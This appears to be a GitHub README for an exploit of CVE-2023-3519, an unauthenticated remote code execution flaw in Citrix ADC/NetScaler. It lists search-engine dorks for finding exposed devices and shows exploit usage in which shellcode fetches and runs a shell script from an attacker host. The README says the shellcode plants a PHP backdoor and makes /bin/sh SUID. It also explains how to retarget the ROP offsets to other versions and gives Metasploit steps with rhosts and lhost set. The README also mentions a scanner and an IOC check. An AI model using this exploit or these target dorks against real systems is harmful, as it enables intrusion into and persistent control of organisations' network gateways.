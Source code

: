 # CVE-2023-3519

![](https://img.shields.io/static/v1?label=Product&message=Citrix%20ADC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Citrix%20VPX%2013.1-48.47&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)



This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).
 - Shodan dork:
```
title:"NetScaler AAA","Citrix Gateway","NetScaler Gateway"
```
- [Hunter](https://hunter.how/) dork:
```
product.name="NetScaler AAA"
```
```
product.name="Citrix Access Gateway"
```

### Scanner
```
# Check a single URL
python3 scanner.py --url https://example.com

# Check multiple URLs from a file
python scanner.py --file urls.txt

# Check multiple URLs from a file and check for IOCs
python scanner.py --file urls.txt --ioc-check
```
You can also use the [template for nuclei.](https://github.com/SalehLardhi/CVE-2023-3519)

### Usage exploit
NASM is required to build the shellcode. 
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo. 

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 exploit.py target.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long. 

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion. 

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `exploit.py`.

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Citrix%20ADC%20RCE%20CVE-2023-3519/citrix_formssso_target_rce.rb
```
```
cp citrix_formssso_target_rce.rb /usr/share/metasploit-framework/modules/exploits/freebsd/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/freebsd/http/citrix_formssso_target_rce.rb
```
```
exploit(freebsd/http/citrix_formssso_target_rce) > set rhosts target_IP
exploit(freebsd/http/citrix_formssso_target_rce) > set lhost attacker_IP
exploit(freebsd/http/citrix_formssso_target_rce) > run
```
